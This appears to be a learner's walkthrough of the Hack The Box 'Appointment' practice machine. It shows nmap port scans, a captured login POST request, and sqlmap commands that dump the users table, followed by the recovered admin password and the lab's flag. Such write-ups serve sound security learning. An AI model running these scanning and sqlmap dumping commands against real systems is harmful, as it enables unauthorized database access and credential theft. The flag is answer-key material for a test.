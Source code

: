 # HTB appointment.

IP = 10.129.151.105

└─$ export IP=10.129.151.105

# This is about SQL and SQL injection. Structured Query Language (SQL) is a standard language that is used to execute and manipulate databases.
#

└─$ nmap -p- --min-rate 5000 -sV $IP -oN initial_scan_appointment

sudo nmap -p T:80 -sC -sV -A $IP -oN initial_scan_appointment_2


'''
'''

Target

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

# open port is 80 which typically offers the service http. 

# Added the IP together with the port number (10.129.151.105:80) to my broswer and I was brought to a website.
# The next step is to do a SQL injectin.
# SQL injetion usually occurs when you ask a user for input, like their username/userid, and istead of a name/id, the user gives you an SQL statement that will unknowingly run on your database.


POST / HTTP/1.1
Host: 10.129.151.105
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.151.105
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.129.151.105/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=admin&password=amdim

#The details above has been derived from a burpsuite interception after I entered the usernameand password in the $IP:80.
# The info was copy-pasted to a new file named new.req so using the cmds below I tried to retrieve details about the database.

$ sqlmap -r new.req 

─$ sqlmap -r new.req -D appdb -T users --dump

# appdb is the application that is running -T is the tables which is named users.

─$ sqlmap -r new.req -D appdb -T users -C password --dump

# the password received was 328ufsdhjfu2hfnjsekh3rihjfcn23KDFmfesd239"23m^jdf it really took some time.


# using the username (admin) and password above I was able to retrive the flag which was e3d0796d002a446c0e622226f42e9672.

















